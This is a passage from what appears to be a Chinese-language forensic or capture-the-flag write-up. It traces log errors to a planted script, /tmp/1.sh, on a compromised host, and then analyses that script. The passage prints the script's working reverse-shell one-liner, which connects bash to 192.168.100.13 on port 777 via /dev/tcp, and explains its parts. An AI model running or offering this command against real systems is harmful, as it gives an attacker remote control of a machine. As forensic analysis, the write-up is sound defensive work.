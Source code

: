 **发现日志中**  **​`/tmp/1.sh`​**​ **脚本的执行错误，发现后面也是由这个文件引起的一系列报错信息，那这里我们就可以尝试定位这个文件，看看里面到底是什么为什么会引起那么多报错信息；**

​![在这里插入图片描述](assets/net-img-efee9c2f194f4b97a3a71e4e7706d030-20240705155247-vg489um.png)​

**同样在mysql目录也发现了此文件，那我们先跟进tmp/1.sh进行分析；**

​![在这里插入图片描述](assets/net-img-98af1d5c41874c388c463033dd308dfd-20240705155247-11pmjrp.png)​

得到；

> bash -i >&/dev/tcp/192.168.100.13/777 0>&1root@xuanji:/tmp#

**简单分析一下；**

首先可以确认这就是一段反弹Shell的命令脚本；

**命令解析**

1. ​**​`bash -i`​**​：

    * 以交互模式启动一个新的Bash Shell。`-i`​参数表示交互式Shell，这样可以确保Shell会读取并执行启动文件，如`.bashrc`​。
2. ​ **​`>& /dev/tcp/192.168.100.13/777`​**​：

    * 使用Bash的特殊文件重定向语法，通过TCP连接到IP地址`192.168.100.13`​和端口`777`​。
    * ​`>&`​ 表示将标准输出（stdout）和标准错误（stderr）都重定向到 `/dev/tcp/192.168.100.13/777`​，这个特殊文件实际上是在通过TCP连接发送数据。
3. ​**​`0>&1`​**​：
